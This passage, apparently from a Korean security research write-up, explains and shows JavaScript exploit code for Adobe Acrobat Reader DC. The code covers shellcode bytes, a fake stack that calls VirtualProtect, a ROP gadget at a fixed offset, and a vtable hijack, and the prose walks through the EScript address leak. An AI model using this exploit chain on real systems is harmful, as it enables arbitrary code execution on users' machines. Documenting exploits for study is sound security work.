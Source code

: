 ```js
// 3. Set Shellcode
var shellcode = [0xec83e589, 0x64db3120, 0x8b305b8b, 0x5b8b0c5b, 0x8b1b8b1c, 0x08438b1b, 0x8bfc4589, 0xc3013c58, 0x01785b8b, 0x207b8bc3, 0x7d89c701, 0x244b8bf8, 0x4d89c101, 0x1c538bf4, 0x5589c201, 0x14538bf0, 0xebec5589, 0x8bc03132, 0x7d8bec55, 0x18758bf8, 0x8bfcc931, 0x7d03873c, 0xc18366fc, 0x74a6f308, 0xd0394005, 0x4d8be472, 0xf0558bf4, 0x41048b66, 0x0382048b, 0xbac3fc45, 0x63657878, 0x5208eac1, 0x6e695768, 0x18658945, 0xffffb8e8, 0x51c931ff, 0x78652e68, 0x61636865, 0xe389636c, 0xff535141, 0xb9c931d0, 0x73736501, 0x5108e9c1, 0x6f725068, 0x78456863, 0x65897469, 0xff87e818, 0xd231ffff, 0x00d0ff52];
var shellcodesize = shellcode.length * 4;
// Write Shell Code
for (var i = 0; i < shellcode.length; i++) {
	writeUint32(rw, StartAddr + 0x18 + i * 4, shellcode[i]);
}

// 4. Setup new Stack
var newStackAddr = 0x5D000001;

writeUint32(rw, newStackAddr, VirtualProtectAddr);      // RIP 1
writeUint32(rw, newStackAddr + 0x4, StartAddr + 0x18);  // RIP 2
writeUint32(rw, newStackAddr + 0x8, StartAddr + 0x18);  //  Arg1 : 메모리 시작 주소
writeUint32(rw, newStackAddr + 0xC, shellcodesize);     //  Arg2 : 메모리 크기
writeUint32(rw, newStackAddr + 0x10, 0x40);             //  Arg3 : 메모리 보호 상수 : 0x40 : 실행 권한
writeUint32(rw, newStackAddr + 0x14, StartAddr + 0x14); //  Arg4 : 이전 보호 상수 저장할 포인터

// 5. try to access unknown property
// => call overwritten getProperty(ROP Gadget) in vtable
var foo = rw.execFlowHijack;
```

- 중요 변수 혹은 값은 다음의 위치에 저장된다.
    1. ROP Gadget은 EScript.api 파일의 특정 부분으로 EScript.api의 base로부터 offset이 고정되어 있다. 21.005.20048.43252 버전의 Adobe Acrobat Reader DC에서 ROP Gadget의 offset은 `0x1050AE`이다.
        
        `0x1050AE: mov esp, 0x5d000001; ret;`
        
    2. 새로운 stack은 1. ROP Gadget으로 esp가 옮겨진 곳 : `0x5d000001`으로 해당 영역이 spray된 Heap 영역 내부에 위치해야 exploit이 진행된다.
    3. 우리의 Exploit Code에서 shellcode는 `r/w primitive의 위치 + 0x18`에 위치시켰다.

---

- 주소를 유출하고, 특정 메모리 값을 변조해 Exploit을 진행하는 과정은 다음과 같다.
    1. Exploit을 위한 Information Leak을 진행한다.
        1. EScript의 base 주소를 획득한다.
            1. [JS Object - SpiderMonkey]와 같이 JSObject (DataView, …)의 메모리 구조를 이용해  EScript 내부 어딘가의 주소를 획득한다.
            2. 1.에서 구한 주소에서 IDA로 확인한 offset (= 0x277548)을 빼 EScript의 base 주소를 얻는다.
        2. IDA로 EScript와 EScript가 사용하는 kernel32.dll의 VirtualProtect 함수의 offset (= 0x1B0060)을 찾는다.
            
            ![image](https://github.com/user-attachments/assets/1ed7932a-9893-4a6e-ba85-24af14ab6b04)
            [그림 7] idata segment에 저장된 VirtualProtect 함수 호출
            
            - VirtualProtect 함수는 Shellcode가 저장된 영역에 실행 권한을 부여하여 Shellcode가 정상적으로 실행될 수 있도록 한다.
            
